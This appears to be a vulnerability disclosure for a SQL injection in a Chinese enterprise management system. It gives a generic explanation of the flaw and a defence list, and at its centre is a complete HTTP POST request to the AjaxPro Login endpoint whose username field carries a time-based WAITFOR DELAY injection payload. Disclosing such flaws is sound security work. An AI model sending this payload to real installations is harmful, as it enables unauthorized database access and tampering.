


超易企业管理系统 sql注入漏洞

SQL injection exists in super easy enterprise management system. ‌SQL Injection vulnerability is a security vulnerability attack technique that targets database-driven applications. Attackers achieve illegal access to and manipulation of databases by inserting or "injecting" malicious SQL code into the application's input fields. The main reason for the formation of this vulnerability is that in the process of data interaction, when the front-end data is passed into the back-end, there is no strict verification filter, resulting in the incoming "data" spliced into the SQL statement, which is executed by the database as part of the SQL statement. This makes the data face a series of hazards such as dewarehousing, malicious destruction and tampering, and even the whole system authority fall. The essence of injection attacks is to execute user input data as code. There are two key conditions for injection attacks: the user can control the input, and the input is directly concatenated into the SQL query statement

indes 



POST data

```
POST /ajaxpro/cySoft.Index,cySoft.ashx HTTP/1.1
Host: 127.0.0.1:8092
Content-Length: 57
X-AjaxPro-Method: Login
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Content-Type: text/plain; charset=UTF-8
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"strUser":"admin' WAITFOR DELAY '0:0:20'-- ","strPwd":""}
```



Methods of defending against SQL injection include:

Use Preparedstatements, which have built-in capabilities to handle SQL injection.
Strengthen the verification and filtering of user input to ensure the security of data input.
Parameter value passing: Do not write variables directly into SQL statements. You must pass related variables by setting corresponding parameters.
Use security parameters: Set specific SQL security parameters during database design.
The permissions of common users and system administrators should be strictly distinguished to avoid giving unnecessary database permissions.
Hierarchical management: Strictly controls user permissions and grants only necessary operation permissions.